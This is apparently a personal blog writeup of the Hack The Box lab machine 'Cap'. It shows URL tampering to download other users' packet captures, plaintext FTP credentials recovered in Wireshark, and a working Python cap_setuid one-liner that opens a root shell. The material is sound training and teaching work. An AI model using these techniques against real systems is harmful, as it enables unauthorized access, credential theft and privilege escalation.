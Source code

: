 ```yaml
---
layout: post
title: "HTB - Cap"
author: "joelczk"
tags: HTB
excerpt_separator: <!--more-->
---
```


I've just completed CAP from HTB! In my opinion, CAP is a rather easy and straight forward box that can be completed fairly quickly (If you know what to look for!). Here's a quick writeup on how I solved this box.

<!--more-->

## HTB - Cap
**Box** : Cap\
**IP Address** : 10.10.10.245\
**Operating System** : Linux

## Remarks

- Learn how to use filter out information using wireshark! 
- `setuid` is KING! ENOUGH SAID :-)

### Enumeration
As usual we will run our good ol' Nmap to identify the services and the OS operating behind each ports. For this box, it is fairly straight forward with only 3 open ports - `21`, `22` and `8081`

Since ports `21` and `22` are ports belonging to FTP and SSH servers respectively, I will start off with the webserver first. 

The website is a fairly simple website that looks like a security dashboard belonging to a user named `Nathan`. The `IP Config` and `Network Status` does not contain any fascinating information that catches my eye, however the `security snapshot` does allow me to download a PCAP file. Furthurmore, I've noticed that I am able to download a few PCAP files by modifying the URLs from `/data/0` to `/data/1`....

![Security Snapshots](../assets/cap/securitysnapshot.png)

We will then proceed to view the PCAP files that we have downloaded. Most of the PCAP files do not contain any interesting information, but the PCAP file downloaded from `http://10.10.10.245/data/0` does contain some interesting information

Initally, I focused on looking at the HTTP packets from wireshark to find exploitable information, but it turns out that the information is hidden in FTP protocol and the credentials are being exchanged in PLAINTEXT!!!
![FTP wireshark packets](../assets/cap/ftp.png)

### Obtaining user flag
Now we will just login to the FTP server using the credentials obtained earlier and download the `user.txt` file to our local server.

```
┌──(kali㉿kali)-[~]
└─$ ftp 10.10.10.245                                                     1 ⚙
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:kali): nathan
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 1001     1001         4096 May 27 09:16 .
drwxr-xr-x    3 0        0            4096 May 23 19:17 ..
lrwxrwxrwx    1 0        0               9 May 15 21:40 .bash_history -> /dev/null
-rw-r--r--    1 1001     1001          220 Feb 25  2020 .bash_logout
-rw-r--r--    1 1001     1001         3771 Feb 25  2020 .bashrc
drwx------    2 1001     1001         4096 May 23 19:17 .cache
-rw-r--r--    1 1001     1001          807 Feb 25  2020 .profile
lrwxrwxrwx    1 0        0               9 May 27 09:16 .viminfo -> /dev/null
-r--------    1 1001     1001           33 Aug 08 10:24 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for user.txt (33 bytes).
226 Transfer complete.
33 bytes received in 0.00 secs (298.3941 kB/s)
ftp>
```

### Obtaining the system/root flag
Remembering that we still have an SSH server, let's try to SSH into the server, in hopes that we can somehow obtain root privileges by just logging in. Unfortunately, reality strikes us hard (NOTHING NEW! LIFE GOES ON)

So what's next? First, I decided to look for executables or programs in that can run `root` permissions without passwords using `sudo -l` but again, to no avail.

```
──(kali㉿kali)-[~]
└─$ ssh nathan@10.10.10.245                                              2 ⚙
nathan@10.10.10.245's password: 
nathan@cap:~$ sudo -l
[sudo] password for nathan: 
Sorry, user nathan may not run sudo on cap.
```

As they always say, Third Time's the charm! On my third attempt, I've decided to search for sudo permissions and SUID binaries that could possibly help us escalate privileges and obtain root shells. This time, I've hit jackpot!

```
nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
nathan@cap:~$ 
```

Here, we noticed that `python3.8` actually has a `setuid` command that can allow us to escalate to UID 0 and obtain the root shell. From there, we will be able to obtain the system/root flag.

```
nathan@cap:~$ python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@cap:~# cd /root
root@cap:/root# cat root.txt
```